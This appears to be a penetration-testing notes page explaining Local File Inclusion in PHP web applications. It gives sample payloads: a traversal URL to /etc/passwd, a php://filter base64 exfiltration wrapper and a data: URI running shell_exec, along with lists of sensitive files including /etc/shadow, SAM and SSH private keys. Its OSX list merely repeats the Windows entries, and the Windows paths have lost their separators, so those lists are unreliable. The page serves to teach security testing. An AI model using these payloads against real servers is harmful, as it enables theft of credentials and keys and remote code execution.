 # Local File Inclusion (LFI)

A local file inclusion (LFI) vulnerability is the process of including files that are locally present on the target server, through exploitation of vulnerable inclusion procedures implemented in the application.

Local file inclusion vulnerabilites occur when a page receives the path to the file that has to be included as input, which is not properly sanitized, allowing directory traversal characters to be injected.

### Examples

The most basic form of a exploiting a LFI vulnerability looks like the following:

```bash
https://mysecureserver.com/file.php?target=../../../../../etc/passwd
```

If we want to get a file,  it is best to base64 encode it. This will ensure that we can exfiltrate files rather than the server excuting the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=$file
```

Additionally, the following command demonstrates  how we could execute code with the `shell_exec` function:

```bash
data:text/plain,<?php echo shell_exec("whoami") ?>
```

### Common Locations

This section lists common files to look for when testing for Local File Inclusion, I have linked additional lists in the 'References' section.&#x20;

#### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

#### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

#### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server may append something like `.php` or `.config` to the file. For example, including `/etc/passwd` may be rendered as `/etc/passwd.php`. This occurs when the include function uses a parameter like `?page` and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (`%00`) will cause the interpreter to stop reading, this would then allow you to include and view the intended page.
* If you have identified LFI impacting a Linux host, you may be able to access the `.ssh/id_rsa` file of identified users. These are easily identified from reading the contents of the `/etc/passwd` file.&#x20;

### References

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion" %}
